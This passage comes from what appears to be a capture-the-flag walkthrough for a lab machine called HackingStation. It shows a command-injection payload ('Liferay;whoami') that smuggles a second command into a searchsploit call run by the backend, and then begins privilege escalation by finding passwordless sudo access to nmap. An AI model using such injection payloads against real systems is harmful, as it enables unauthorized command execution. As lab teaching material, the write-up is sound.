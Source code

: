the backend executes the following command

{% include codeHeader.html %}
```console
searchsploit -wj Liferay
```

However, when we send the following payload

{% include codeHeader.html %}
```html
Liferay;whoami
```

the backend executes the following commands

{% include codeHeader.html %}
```console
searchsploit -wj Liferay;whoami
```

In this way, first is executed the command *searchsploit -wj Liferay* and then the command *whoami*.

It is not recommended to use functions to execute system commands, and if there is no other option, it is mandatory to validate or sanitize the input before passing it to the function.

<div id='section-id-3'/>
## 3. Privilege escalation

<div id='section-id-3-1'/>
## 3.1. Detecting the nmap vulnerability

After examining the home directory of the *hacker* user, there is nothing unusual or suspicious. Returning to the web index we can see that it says the following message

```html
Coming soon to HackingStation... NMAP!!!!!
```

Nmap requires superuser permissions for certain use cases so it wouldn't be strange that, if they are working on developing some web functionality with nmap, they left some misconfigurations about the nmap binary.

The following command

{% include codeHeader.html %}
```console
sudo -l
```

checks the */etc/sudoers* file (or any other file specified by the sudoers configuration) to determine what commands and actions are allowed to be executed with elevated privileges via *sudo*. The result of this command is

{% include codeHeader.html %}
```console
hacker@HackingStation:/home/hacker$ sudo -l
sudo -l
Matching Defaults entries for hacker on HackingStation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
```
